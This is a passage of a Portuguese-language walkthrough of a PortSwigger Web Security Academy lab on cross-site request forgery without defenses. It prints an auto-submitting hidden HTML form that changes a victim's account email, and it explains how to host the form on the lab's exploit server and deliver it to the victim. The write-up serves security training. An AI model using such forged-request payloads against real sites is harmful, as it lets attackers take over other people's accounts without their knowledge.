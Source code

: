 Com essas informações, podemos criar um script que envie uma requisição para o back-end com o mesmo corpo da requisição que o `Burp Suite` interceptou:

```html	

    <form method="POST" action="https://0aa300d80338f629c6ad9eb600e60050.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos um campo de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![exploit](nodefenses_server.png)

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](nodefenses_concluido.png)

---
